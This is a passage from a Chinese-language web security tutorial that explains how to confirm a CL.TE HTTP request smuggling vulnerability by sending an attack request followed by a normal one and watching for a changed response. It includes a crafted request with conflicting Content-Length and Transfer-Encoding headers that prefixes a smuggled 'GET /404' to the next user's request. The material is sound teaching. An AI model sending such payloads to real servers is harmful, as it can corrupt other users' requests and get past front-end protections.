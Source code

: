 
## 使用差异响应确认 HTTP 请求走私漏洞

当检测到可能的请求走私漏洞时，可以通过利用该漏洞触发应用程序响应内容的差异来获取该漏洞进一步的证据。这包括连续向应用程序发送两个请求：
- 一个攻击请求，旨在干扰下一个请求的处理。
- 一个正常请求。

如果对正常请求的响应包含预期的干扰，则漏洞被确认。

例如，假设正常请求如下：
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

这个请求通常会收到状态码为 200 的 HTTP 响应，响应内容包含一些搜索结果。

攻击请求则取决于请求走私是 `CL.TE` 还是 `TE.CL` 。


### 使用差异响应确认 CL.TE 漏洞

为了确认 `CL.TE` 漏洞，你可以发送如下攻击请求：

<code>
    <span style="color:blue">
        POST /search HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 49<br>
        Transfer-Encoding: chunked<br>
        <br>
        e<br>
        q=smuggling&amp;x=<br>
        0<br>
        <br>
    </span>
    <span style="color:orange">
        GET /404 HTTP/1.1<br>
        Foo: x
    </span>
</code>

如果攻击成功，则最后两行会被后端服务视为下一个请求的开头。这将导致紧接着的一个正常的请求变成了如下所示：

<code>
    <span style="color:orange">
        GET /404 HTTP/1.1<br>
        Foo: x</span><span style="color:green">POST /search HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 11<br>
        <br>
        q=smuggling
    </span>
</code>
